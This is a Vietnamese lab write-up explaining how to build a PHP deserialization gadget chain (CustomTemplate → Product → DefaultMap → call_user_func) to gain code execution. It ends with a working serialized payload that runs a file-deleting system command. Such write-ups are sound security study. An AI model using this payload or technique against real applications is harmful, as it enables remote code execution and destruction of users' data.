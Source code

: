 ## Developing a custom gadget chain for PHP deserialization

1. Bài này yêu cầu tự custom gadget để rce để có thể xóa file trong thư mục người dùng.
2. Để tạo gadget chain thì phải có source code.
3. Từ hint của bài tìm thấy endpoint nghi ngờ trong source + kết hợp `~` - dấu vết file backup trên endpoint đó.

<img width="738" height="926" alt="image" src="https://github.com/user-attachments/assets/ad74e213-adca-41e9-ac7f-b7ecfce119fe" />

<img width="1052" height="453" alt="image" src="https://github.com/user-attachments/assets/16b2de09-2f53-4753-8855-24f2234e399f" />

4. Từ đó biết được đoạn xử lý các obj trong proj.

```
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```

5. Bắt đầu từ sink - nơi trực tiếp có thể thực thi command. Đó là hàm `call_user_func` trong phương thức `__get` của class `DefaultMap` khi mà hàm này được sử dụng để gọi một hàm được user define hoặc method của một class một cách dynamic. Nó lấy callable như first argument và các param sau là param của callable.
6. Ví dụ cho dễ hiểu.

```
<?php
function greet($name) {
    echo "Hello, " . $name . "!\n";
}

call_user_func('greet', 'Alice'); // Output: Hello, Alice!
?>
```

7. Như vậy có thể rce bằng cách ví dụ  `call_user_func("system", "whoami")`
8. Để truyền vào 2 tham số như thế kia thì phải gọi 2 magic method trong ``DefaultMap``.
9. Để giá trị callback hay first argument của hàm `call_user_func` là `system` thì chỉ cần truyền khi khai báo Object DefaultMap ~ `new DefaultMap('system')`
10. Để gọi hàm `__get` của class DefaultMap thì phải gọi một không tồn tại hoặc không thể truy cập (private/protected) từ bên ngoài đối tượng. -> Vậy nên không thể chơi kiểu `O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";s:4:"name";s:26:"rm /home/carlos/morale.txt";}` vì chỉ đơn giản là được tạo ra và tồn tại trong bộ nhớ. Không có đoạn mã nào cố gắng truy cập thuộc tính không tồn tại của nó vậy nên `__get` không dược gọi.
11. Như vậy phải dựa vào các class trên.
12. Ta thấy class `Product` có hàm `__construct` cho phép truyền vào 2 param. Và ở chỗ gán `$desc->$default_desc_type;` nhận thấy rằng cố gắng gọi một thuộc tính hoặc method được gán với $default_desc_type từ $desc.
13. Như vậy nếu gán được $desc thành obj DefaultMap và $default_desc_type là một thuộc tính không tồn tại trong DefaultMap thì __get sẽ được gọi với $name = $default_desc_type
14. DO đó tạo chuỗi gadget từ CustomTemplate -> gọi tới __wakeup -> build_product() -> tạo ra một đối tượng Product mới: new Product($this->default_desc_type, $this->desc)
15. Object sau khi serialize sẽ có dạng như sau:

```
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}}
```

<img width="1066" height="566" alt="image" src="https://github.com/user-attachments/assets/89943949-e4f2-4f03-8ab9-9eca6af127ac" />
